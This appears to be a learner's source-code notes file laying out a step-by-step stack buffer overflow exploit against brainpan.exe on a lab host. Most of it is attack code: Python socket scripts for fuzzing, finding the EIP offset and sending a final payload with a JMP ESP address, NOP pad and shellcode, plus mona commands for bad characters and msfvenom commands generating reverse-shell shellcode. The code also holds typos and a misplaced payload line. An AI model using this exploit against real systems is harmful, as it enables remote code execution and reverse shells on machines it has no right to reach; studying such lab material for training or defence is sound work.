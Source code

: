# Buff_Over_flo

    //****buffer overflow steps -- use immunity debugger-open the file, sitting betwin file and attack host, view the ram space of the file running
    //1. code to test how long a input strings will make the app crashed. in 100 byte level
    //2. exactly the longth to EIP (4 bytes), the offset
    //3. check how long strings the ESP can accept, we need almost 400-500 bytes.
    //4. send the paylaod, offset + EIP(the address of ESP) + PAD ("\x90"*16) + shellcode(write to ESP)

    //code for setp1
    buffer =["A"]
    counter = 100

    while len(buffer) <=30:
        buffer.append("A"*counter)
        counter += 100

    for i in buffer:
        buffer = "A"*524 + "\xf3\x12\x17\x31"+ pad + shell
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        connect = s.connect(('192.168.56.117',9999))
        s.send(buffer)
        data = s.recv(1024)
        print(len(bufer), "Sent! ")
        s.close()
    //here the length is the value of offset
    
    //step 2 codes
        //buffer > offset ,but < offset +100
        //we tried to sent the length of buffer to get exactly offset, to make B to write on EIP addr
        buffer ="A"*x + "B"*4
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        connect = s.connect(('192.168.56.117',9999))
        s.send(buffer)
        data = s.recv(1024)
        s.close()
    
    //step3
        //change buffer = "A"*offset + "B"*4 + "C"*500 (500bytes is enough for revershell )
        //use same code as step2
        // send the bad char strings to test badchar which is not accept by the target software, ohter than \x00
        //the payload is "\x01 -- \xff"
            !mona bytearray -b "\x00"  //used to generate badchar string
    //step4
        buffer = "A"*offset + (the address of ESP) + PAD + shellcode
        //for ESP, we need to map the opcode(operation code) of JMP ESP, that is \xff\xe4.
            //!mona modules (mona.py) -- to check the sofatware is protected or not,  if it is false, we can find the addr os EIP, by find \xff\xe4
            //!mona find -s "\xff\xe4" -m brainpan.exe, we get a addr 311712f3, but the addr in the ram is "\xf3\x12\x17\x31"  //!mona jmp -r esp -cpb "\x00"
        //  reverse shellcode of bytes format,
            //msfvenom -p windows/shell_reverse_tcp LHOST=xx LPORT=xx EXITFUNC=thread -f c -a x86 -b "\x00" (use to test on win host)
            //msfvenom -p linux/x86/shell_reverse_tcp LHOST=xx LPORT=xx EXITFUNC=thread -f c -a x86 -b "\x00" (use on kali)
